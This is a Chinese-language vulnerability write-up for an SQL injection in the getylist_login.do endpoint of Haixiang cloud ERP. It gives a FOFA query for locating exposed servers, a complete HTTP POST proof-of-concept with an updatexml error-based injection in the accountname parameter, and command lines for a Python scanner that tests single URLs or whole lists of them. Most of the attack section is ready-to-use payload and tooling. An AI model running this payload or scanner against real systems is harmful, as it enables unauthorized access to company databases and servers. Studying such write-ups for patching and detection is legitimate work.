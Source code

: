 # 海翔ERP getylist_login.do SQL注入漏洞

### 1.漏洞描述

海翔云ERP,由成都海翔软件有限公司自主研发，拥有完全知识产权。 云ERP为企业提供 营销 + 财务 + 仓储 + 物流 整体解决方案;云ERP致力于在互联网背景下，为商贸公司提供企业级整体应用解决方案;云ERP更注重提供丰富的移动端应用，推动企业在互联网时代的经营升级

海翔云ERP getylist_login 接口处存在SQL注入漏洞，恶意攻击者可能会利用该漏洞获取服务器敏感信息，最终导致服务器失陷。

### 2.fofa语法

```
body="checkMacWaitingSecond"
```

### 3.漏洞复现

```
POST /getylist_login.do HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
 
accountname=test' and (updatexml(1,concat(0x7e,(select md5(123456)),0x7e),1));--
```

![image.png](https://cdn.nlark.com/yuque/0/2024/png/42783549/1719832101346-4f28a7a2-3059-4b10-b63c-fd4b2073f5a4.png?x-oss-process=image%2Fformat%2Cwebp%2Fresize%2Cw_937%2Climit_0)

### 4.py脚本使用

```
python3 360 脚本文件名 -u "http://127.0.0.1"  # 测试单个url
python3 360 脚本文件名 -f url.txt             # 测试多个url
```

